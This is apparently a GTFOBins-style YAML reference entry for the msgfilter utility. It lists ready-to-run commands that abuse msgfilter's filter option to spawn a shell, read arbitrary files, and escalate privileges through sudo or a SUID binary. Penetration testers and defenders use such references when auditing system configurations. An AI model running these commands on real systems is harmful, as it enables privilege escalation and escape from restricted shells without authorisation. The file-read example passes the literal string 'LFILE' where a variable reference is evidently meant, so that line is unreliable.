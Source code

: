 functions:
  shell:
    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
      code: |
        echo x | msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
  file-read:
    - description: The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data. `/bin/cat` can be replaced with any other *filter* program.
      code: |
        LFILE=file_to_read
        msgfilter -P -i "LFILE" /bin/cat
  sudo:
    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
      code: |
        echo x | sudo msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
  suid:
    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
      code: |
        echo x | ./msgfilter -P /bin/sh -p -c '/bin/sh -p 0<&2 1>&2; kill $PPID'
---
